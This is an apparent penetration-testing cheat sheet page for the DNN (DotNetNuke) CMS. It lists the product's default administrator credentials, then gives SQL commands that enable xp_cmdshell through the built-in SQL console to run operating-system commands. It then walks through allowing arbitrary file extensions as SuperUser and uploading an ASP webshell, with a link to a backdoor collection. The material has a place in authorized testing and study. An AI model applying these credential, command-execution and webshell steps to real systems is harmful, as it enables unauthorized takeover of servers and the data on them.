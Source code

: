 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# DNN

## Default Creds

```bash
$ creds search DotNetNuke
+------------------------+----------+----------+
| Product                | username | password |
+------------------------+----------+----------+
| dotnetnuke corporation |  admin   | dnnadmin |
| dotnetnuke corporation |   host   | dnnhost  |
+------------------------+----------+----------+
```

## RCE

### SQL Console

System command can be run via the built-in SQL console under the Settings menu.

```sql
# enable xp_cmdshell
EXEC sp_configure 'show advanced options', '1'
RECONFIGURE
EXEC sp_configure 'xp_cmdshell', '1' 
RECONFIGURE
```

After pressing `Run Script` OS commands can be executed.

```sql
xp_cmdshell 'whoami'
```

### ASP Webshell

If the `SuperUser` account is compromised, we can access the Security settings (Figure 1) and allow any file extensions needed so we can upload a webshell (Figure 2).&#x20;

<figure><img src="../../../.gitbook/assets/dnn_security_menu.png" alt=""><figcaption><p>Figure 1: Accessing the Security settings.</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/dnn_allow_extensions.png" alt=""><figcaption><p>Figure 2: Add the desired file extensions.</p></figcaption></figure>

Upload a webshell, such as this [`.asp` webshell](https://raw.githubusercontent.com/backdoorhub/shell-backdoor-list/master/shell/asp/newaspcmd.asp) (Figure 3).

<figure><img src="../../../.gitbook/assets/dnn_upload.png" alt=""><figcaption><p>Figure 3: Uploiad the webshell.</p></figcaption></figure>

Get the file's URL by right-clicking and interact with the webshell.

<figure><img src="../../../.gitbook/assets/dnn_geturl.png" alt=""><figcaption><p>Figure 4: Get the URL and interact with the webshell.</p></figcaption></figure>

## Resources

{% tabs %}
{% tab title="DNN" %}
{% embed url="https://www.dnnsoftware.com/" %}
{% endtab %}
{% endtabs %}
